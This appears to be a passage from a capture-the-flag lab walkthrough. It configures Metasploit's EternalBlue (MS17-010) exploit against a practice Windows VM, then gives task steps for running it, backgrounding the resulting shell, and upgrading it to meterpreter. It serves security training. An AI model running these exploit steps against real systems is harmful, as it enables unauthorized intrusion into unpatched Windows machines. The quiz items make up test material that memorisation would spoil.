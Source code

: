 ```

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.166.97
RHOSTS => 10.10.166.97
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.166.97     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

`RHOSTS`

4. Run the exploit!

`No answer needed`

5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

`No answer needed`

## [Task 3] Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
